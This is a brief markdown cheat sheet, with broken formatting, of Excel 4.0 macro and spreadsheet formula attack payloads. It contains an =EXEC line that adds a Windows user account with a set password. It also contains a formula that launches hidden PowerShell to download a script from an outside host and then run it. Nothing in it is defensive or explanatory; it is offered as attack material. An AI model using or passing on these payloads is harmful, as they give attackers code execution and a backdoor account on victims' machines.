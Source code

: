 # XML MACRO Attack

XML 4.0 

### payload XML  4.0 attack

```
=EXEC("cmd /c net user /add nooranet12 Aa123456")
=HALT()
```

```
=EXEC("cmd /c powershell payload powershell")
=HALT()
```

```powershell
```
=cmd|'/c powershell.exe -w hidden IEX (New-Object Net.WebClient).DownloadString(\"http://nooranetred.com/screen.cmd\");start-process screen.cmd'!_xlbgnm.A1
```
```





